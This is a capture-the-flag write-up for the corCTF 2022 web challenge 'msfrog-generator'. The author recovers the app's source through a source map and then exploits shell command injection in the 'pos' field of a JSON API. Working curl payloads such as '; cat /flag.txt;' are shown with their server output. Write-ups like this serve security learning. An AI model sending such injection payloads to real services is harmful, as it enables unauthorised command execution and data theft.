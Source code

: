 ```yaml
---
tags: writeup, corctf2022
---
```

# Writeup - web/msfrog-generator
## Challenge
Author: jazzpizazz
The vanilla msfrog is hard to beat, but this webapp allows you to make it even better!
## Solution
Opening up the site we see a canvas and some items to add to it and a button download it.
Looking at the source i see a javascript file     `/static/js/main.88f9e0db.js` and a comment:
```htmlmixed!
<!-- NOTE: There is no (intended) vuln in the frontend, please don't waste your time digging into the JS ;)  -->
```
Having read the comment I still decied to check out the js file which was heavily minified. At the end of the file I notice another comment:
```javascript
//# sourceMappingURL=main.88f9e0db.js.map
```
A quick google search up later I find this info about the extension:
```!
From https://stackoverflow.com/questions/21719562/how-can-i-use-javascript-source-maps-map-files

The .map files are for JavaScript and CSS (and now TypeScript too) files that have been minified.
What is it for?     To de-reference uglified code
Chrome: Open dev-tools, navigate to Sources tab. You will see the sources folder, where un-minified applications files are kept.
```
And sure enough opening dev tools->sources all the js files are visible. Looking through them trying to find something useful I find a file which includes an api call to generate the image `static->js->components->MsButton->MsButton.js`
```javascript
let jsonData = [];
    placedItems.forEach((item) => {
      jsonData.push({ type: item.type, pos: item.pos });
    });

    try {
      let response = await fetch("/api/generate", {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(jsonData),
      });
      if (response.status !== 200)
        throw `Unexpected response: ${response.status}`;
      response = await response.json();
      if (!response.msfrog) throw "Empty response, the heck?";
      toast.success("Enjoy your MsFrog :D");
      triggerBase64Download(
        `data:image/png;base64,${response.msfrog}`,
        "msfrog"
      );
    } catch (e) {
      toast.error(`Sadge, something went wrong: ${e}`);
    }
```
I set breakpoints to view jsonData:
`[{"type":"mstongue.png","pos":{"x":0,"y":0}}]`
At this point I got a bit stuck, but later while fuzzing with the data I got this:
```bash!
> curl -X POST https://msfrog-generator.be.ax/api/generate -d '[{"type":"lol","pos":{"x":0,"y":0}}]' -H "Content-Type: application/json"

I wont pass a non existing image to a shell command lol
```
Trying to inject some commands in the "type" value didn't work, so then I tried the pos values:
```bash!
> curl -X POST https://msfrog-generator.be.ax/api/generate -d '[{"type":"mstongue.png","pos":{"x":0,"y":"; ls;"}}]' -H "Content-Type: application/json"

{"msfrog": "fe\nimg\nserver.py\nwsgi.py\n"}
```
```bash!
> curl -X POST https://msfrog-generator.be.ax/api/generate -d '[{"type":"mstongue.png","pos":{"x":0,"y":"; ls /;"}}]' -H "Content-Type: application/json"

{"msfrog": "app\nbin\nboot\ndev\netc\nflag.txt\nhome\nlib\nlib32\nlib64\nlibx32\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```
Then just cat the flag
```bash!
> curl -X POST https://msfrog-generator.be.ax/api/generate -d '[{"type":"mstongue.png","pos":{"x":0,"y":"; cat /flag.txt;"}}]' -H "Content-Type: application/json"

{"msfrog": "corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}\n"}
```
## Flag
corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}
## Thoughts
This was kind of an interesting chall, but I think it was guessy.
Note: I had messed up my network tab during the challenge by putting something in the filter accidentally so no requests showed up for me, so I had to use breakpoints. Noticed that only after the ctf ended..
